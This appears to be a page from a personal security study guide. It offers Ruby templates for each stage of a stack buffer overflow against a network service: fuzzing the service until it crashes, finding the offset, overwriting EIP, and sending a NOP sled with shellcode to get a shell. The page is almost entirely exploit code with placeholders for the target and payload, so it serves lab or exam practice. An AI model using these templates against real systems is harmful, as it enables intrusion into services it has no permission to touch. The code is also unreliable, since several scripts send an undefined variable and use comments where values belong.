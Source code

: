 
### Ruby Templates for BOF

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Ruby
require 'socket'

buff = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    while true
        s = TCPSocket.open(RHOST, RPORT)
        s.puts buff + '\r\n'
        s.close
        sleep 1
        buffSize = buff.size
        buff += "A" * 100
    end
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
### Finding Offset
```Ruby
require 'socket'

buffer = #Based on at what bytes you get to EIP, generate your pattern and insert it here, example "AAAA"
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    s = TCPSocket.open(RHOST, RPORT)
    s.puts buff + '\r\n'
    s.close
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```    
### Overwriting EIP
```Ruby
buffer = #Based on the offset bytes, place your pattern here 
buffer += "B" * 4
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
### Owning EIP
```Ruby
buffer = "A" * (Offset Value)
buffer += #Address of EIP
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
### Getting a Shell
```Ruby
shellcode = #Place your shellcode here
buff = "A" * (Offset Value)
buff += #Address of EIP 
buff += "\x90" * (8/10/12/16/20...) 
buff += shellcode
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)

